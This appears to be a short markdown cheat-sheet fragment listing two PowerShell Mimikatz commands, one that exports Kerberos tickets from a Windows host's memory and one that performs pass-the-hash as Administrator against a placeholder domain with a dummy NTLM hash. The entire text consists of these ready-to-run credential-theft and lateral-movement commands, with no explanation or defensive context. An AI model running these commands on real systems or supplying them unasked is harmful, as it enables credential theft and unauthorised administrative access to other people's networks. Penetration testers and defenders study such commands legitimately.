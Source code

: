 ## Mimikatz dump tickets


```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

## Mimikatz pass the hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:some.domain.local /ntlm:brydaafdsafd3524frw4fe4f"'
```
